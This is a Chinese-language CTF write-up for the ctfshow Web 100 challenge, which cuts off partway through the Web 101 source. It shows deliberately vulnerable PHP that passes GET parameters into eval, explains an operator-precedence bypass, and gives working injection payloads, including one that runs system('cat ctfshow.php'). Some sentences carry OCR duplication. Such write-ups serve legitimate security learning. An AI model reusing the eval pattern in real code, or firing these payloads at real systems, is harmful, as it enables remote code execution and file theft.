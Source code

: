 

> **题目：（Web 100）**

```php
// Web 100

<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if ($v0) {
    if (!preg_match("/\;/", $v2)) {
        if (preg_match("/\;/", $v3)) {
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

因为赋值的优先级(=)高于and所以v 0 的 值 可 以 由 v0的值可以由v0的值可以由v1来控制，所以我们需要给其赋值为1也就是true

**Payload：**

```php
?v1=1&v2=var_dump($ctfshow)&v3=;
v1=1&v2=system("cat ctfshow.php")/*&v3=*/;
```

因为源码中给了提示 ：`flag in class ctfshow;`，所以输出一个新的"ctfshow"类。

得到 flag_is_bde4fb430x2d62590x2d404f0x2dbaa30x2da2d6bd94ed98
把ox2d换成-，再套上{}即可

注意这里v3只能包含`;`，可以是多个叠加，但不能有其他字符。

**var_dump() 函数用于输出变量的相关信息。**





### 9、反射类 ReflectionClass

**（Web 101）**

反射类，做过题都是直接输出这个类`echo new ReflectionClass('类名');`

利用反射类，`Relectionclass()`函数，作用：根据类名反射一个类。在代码执行时，加入输入一个A，但是在逻辑判断之后，生成了一个B类，所以这时，用Relectionclass("A")来限定生成A类。

```php
// （Web 101）

<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v0 = is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if ($v0) {
    if (!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)) {
```